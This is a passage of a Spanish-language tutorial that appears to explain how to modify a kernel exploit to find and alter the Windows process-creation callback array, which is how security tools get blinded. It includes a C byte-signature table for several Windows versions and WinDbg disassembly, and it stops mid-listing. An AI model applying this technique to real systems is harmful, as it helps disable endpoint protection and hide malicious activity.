 El cambio debe hacerse tanto en `findprocesscallbackroutine` como en `findprocesscallbackroutinestealth`.

`findprocesscallbackroutinestealth` es la función que he introducido que modificará la función dentro de la entrada.

`findprocesscallbackroutine` es la función original del exploit original que anulará la entrada.

El código original hará una `byte search` para encontrar la ubicación de la función que está utilizando la tabla de callback (`nt!PspSetCreateProcessNotifyRoutine`) a partir de una función exportada cerca de ella.

Primero debe comprobar que los bytes no han cambiado en su sistema operativo.

<pre>
struct Offsets {
    <mark>DWORD64 process;</mark>
    DWORD64 image;
    DWORD64 thread;
    DWORD64 registry;
};

struct Offsets getVersionOffsets() {
    wchar_t value[255] = { 0x00 };
    DWORD BufferSize = 255;
    RegGetValue(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion", L"ReleaseId", RRF_RT_REG_SZ, NULL, &value, &BufferSize);
    wprintf(L"[+] Windows Version %s Found\n", value);
    auto winVer = _wtoi(value);
    switch (winVer) {
        //case 1903:
    case 1909:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2004:
        return { 0x8b48cd0349c03345, 0xe8d78b48d90c8d48, 0xe8cd8b48f92c8d48, 0x4024448948f88b48 };
    case 2009:
        return { <mark>0x7340fe8341f63345</mark>, 0x8d48d68b48c03345, 0x48d90c8d48c03345, 0x4024448948f88b48 };
    default:
        wprintf(L"[!] Version Offsets Not Found!\n");

    }

}
</pre>

El primer DWORD es el callback relacionado con la creación del proceso y contiene los bytes que el programa buscará.

 sabemos que la función `nt!PspSetCreateProcessNotifyRoutine` está usando el array callback.

La idea es encontrar algunos bytes cerca del comando `lea` que está usando el array callback que nos interesa, y los bytes que usaremos, necesitan ser estáticos para que podamos confiar en ellos para la búsqueda de bytes y no cambien después de cada reinicio.
<pre>
lkd> u nt!PspSetCreateProcessNotifyRoutine L20
nt!PspSetCreateProcessNotifyRoutine:
fffff800`a4e61fd0 48895c2408      mov     qword ptr [rsp+8],rbx
fffff800`a4e61fd5 48896c2410      mov     qword ptr [rsp+10h],rbp
fffff800`a4e61fda 4889742418      mov     qword ptr [rsp+18h],rsi
fffff800`a4e61fdf 57              push    rdi
fffff800`a4e61fe0 4154            push    r12
fffff800`a4e61fe2 4155            push    r13
fffff800`a4e61fe4 4156            push    r14
fffff800`a4e61fe6 4157            push    r15
fffff800`a4e61fe8 4883ec20        sub     rsp,20h
fffff800`a4e61fec 8bf2            mov     esi,edx
fffff800`a4e61fee 8bda            mov     ebx,edx